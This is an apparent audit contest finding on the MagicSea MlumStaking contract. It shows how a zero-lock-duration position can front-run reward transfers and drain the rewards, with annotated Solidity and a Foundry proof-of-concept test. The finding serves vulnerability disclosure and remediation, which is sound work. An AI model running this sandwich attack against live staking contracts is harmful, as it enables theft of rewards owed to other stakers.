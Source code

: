 Soft Mint Lizard

High

# MlumStaking user can frontrun new reward tokens and harvest immediatelly

## Summary

All new rewards can be stolen by sandwiching rewards with 0 `lockDuration`.

## Vulnerability Detail

The way that users in `MlumStaking` receive rewards is first there should be some reward token transferred to the contract and the next caller will trigger `_updatePool` function, which will increase the `_accRewardsPerShare` based on the amount that has been sent and then divided by all the positions in the system.

```solidity
function _updatePool() internal {
        uint256 accRewardsPerShare = _accRewardsPerShare;
        uint256 rewardBalance = rewardToken.balanceOf(address(this));
        uint256 lastRewardBalance = _lastRewardBalance;

        // recompute accRewardsPerShare if not up to date
        if (lastRewardBalance == rewardBalance || _stakedSupply == 0) {
            return;
        }

        uint256 accruedReward = rewardBalance - lastRewardBalance;
        _accRewardsPerShare = accRewardsPerShare + ((accruedReward * (PRECISION_FACTOR)) / (_stakedSupplyWithMultiplier));

        _lastRewardBalance = rewardBalance;

        emit PoolUpdated(_currentBlockTimestamp(), accRewardsPerShare);
    }
```

The problem is that this `rewardToken` transfer can be sandwiched by anyone to harvest immediate rewards. It will happen since there is no minimum `lockDuration` and positions opened with 0 can be closed right after.

Impact is max when there is sequence of the following actions (note that due to the nature of IotaEVM, deployers will be forced to not submit 2 consecutive transactions for deploy and transferring reward tokens, since it can either fail or send the tokens to wrong address, depending on which transaction will be processed first, this gives the needed time for Alice to insert her tx between the 2):

1. 10e18 `rewardTokens` are sent, when there are no positions in the contract
2. Alice frontrun step 1 by `createPosition` with 1 wei and 0 `lockDuration`

Important variables:

- Alice’s `rewardDebt` = 0
- Alice’s `amountWithMultiplier` = 1
- `_stakedSupplyWithMultiplier` = 1
- `_accRewardsPerShare` = 0
1. Alice call `withdrawFromPosition` with 1 wei, and pool is updated:

```solidity
function _updatePool() internal {
        uint256 accRewardsPerShare = _accRewardsPerShare;
        uint256 rewardBalance = rewardToken.balanceOf(address(this));
        uint256 lastRewardBalance = _lastRewardBalance;

        // recompute accRewardsPerShare if not up to date
        if (lastRewardBalance == rewardBalance || _stakedSupply == 0) {
            return;
        }

        uint256 accruedReward = rewardBalance - lastRewardBalance;// 10e18
		    //@audit 0 + (10e18 * 1e12) / 1 = 10e30
        _accRewardsPerShare = accRewardsPerShare + ((accruedReward * (PRECISION_FACTOR)) / (_stakedSupplyWithMultiplier));

        _lastRewardBalance = rewardBalance;//10e18

        emit PoolUpdated(_currentBlockTimestamp(), accRewardsPerShare);
    }
```

1. In `_harvestPosition` the entire `rewardToken` balance is sent to Alice:

```solidity
function _harvestPosition(uint256 tokenId, address to) internal {
        StakingPosition storage position = _stakingPositions[tokenId];

        // compute position's pending rewards
        //@audit 1 * 10e30 / 10e12 - 0 = 10e18
        uint256 pending = position.amountWithMultiplier * _accRewardsPerShare / PRECISION_FACTOR - position.rewardDebt;

        // transfer rewards
        if (pending > 0) {
            // send rewards
            _safeRewardTransfer(to, pending);
        }
        emit HarvestPosition(tokenId, to, pending);
    }
```

1. All new `rewardToken` transfer can be immediately stolen.

Here is a POC demonstrating how Alice takes the entire balance of `rewardToken` **twice**. It can be placed in `MlumStaking.t.sol`:

```solidity
function testC1() public {
    _stakingToken.mint(ALICE, 10 ether);

    vm.startPrank(ALICE);
    _stakingToken.approve(address(_pool), 1 ether);
    _pool.createPosition(1 ether, 0);
    vm.stopPrank();

    IMlumStaking.StakingPosition memory pos = _pool.getStakingPosition(1);

    console.log("Rewards after create", _pool.pendingRewards(1));
    console.log("Rewards balance after create", _rewardToken.balanceOf(ALICE));
    console.log(pos.amountWithMultiplier);
    console.log(pos.rewardDebt);
    console.log(_pool._accRewardsPerShare());
    

    _rewardToken.mint(address(_pool), 100000e6);
    console.log("Rewards balance in staking", _rewardToken.balanceOf(address(_pool)));

    vm.prank(ALICE);
    _pool.withdrawFromPosition(1, 1 ether);

    console.log("Rewards balance after withdraw", _rewardToken.balanceOf(ALICE));
    console.log("RRewards balance in staking after", _rewardToken.balanceOf(address(_pool)));
    console.log(_pool._accRewardsPerShare());
    // =======================
    vm.startPrank(ALICE);
    _stakingToken.approve(address(_pool), 1 ether);
    _pool.createPosition(1 ether, 0);
    vm.stopPrank();
    console.log(_pool._accRewardsPerShare());

    _rewardToken.mint(address(_pool), 200e6);
    console.log("Rewards balance in staking", _rewardToken.balanceOf(address(_pool)));

    vm.prank(ALICE);
    _pool.withdrawFromPosition(2, 1 ether);
    console.log("Rewards balance after withdraw", _rewardToken.balanceOf(ALICE));
    console.log("RRewards balance in staking after", _rewardToken.balanceOf(address(_pool)));
    console.log(_pool._accRewardsPerShare());

}
```

Another possible scenario is when there are already some positions, everyone can sandwich the transferring of `rewardToken`, creating positions with 0 `lockDuration` and any satisfying amount of `stakedToken`, then backrun the transfer by withdraw and close the position taking the difference of previous `_accRewardsPerShare` and next one updated in `_updatePool`. This way no one will be incentivized to lock his tokens for any amount of time, when he can simply harvest the position immediately.

It order of events will look like that → `MlumStaking::createPosition` → `rewardToken::transfer(MlumStaking, 1000e18)` → `MlumStaking::withdrawFromPosition`.

## Impact

All the `rewardTokens` can be stolen from the first staker in `MlumStaking`

## Code Snippet

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L354-L390

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L496-L502

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L674-L686

## Tool used

Manual Review

## Recommendation

Enforce some minimum stake duration
